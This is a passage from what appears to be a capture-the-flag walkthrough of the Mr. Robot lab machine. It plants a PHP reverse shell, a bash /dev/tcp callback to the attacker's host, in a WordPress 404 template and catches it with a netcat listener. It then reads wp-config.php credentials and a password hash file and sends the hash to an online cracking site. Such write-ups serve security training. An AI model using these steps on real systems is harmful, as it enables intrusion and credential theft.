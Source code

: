 Now we search a key inside the machine using shell.

**Another method by using Php script**
Go to Apperance->Editor-> 404 template
paste the below reverse php Script.
```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/"local machine ip address"/443 0>&1'");
?>
```
Update the file
Now setup the listener using netcat
```
sudo nc -lvp 443
```
<img src="./img/Screenshot 2024-08-24 121743 1.png"></img>
now
search a non existing directory that gives you 404 error.
```
http://192.168.0.6/ddxf
```
Successfully got reverse shell in our terminal
Lets look for other details
Just perform some basic cmds like
```
ls
cat wp-config.php
```
We can see the configuration of the database for the mr.robot we got many passwords and user
```
ls -la /home
```
We got a robot directory
look into that
```
ls -la /home/robot
```
we got a key file and  password.raw.md5 file and the key file only accessed by robot user, 
cat password file.
```
cat /home/robot/password.raw-md5
```

we got <img src="./img/Screenshot 2024-08-24 122456.png"></img>a hash string
Put that hash string into the https://crackstation.net/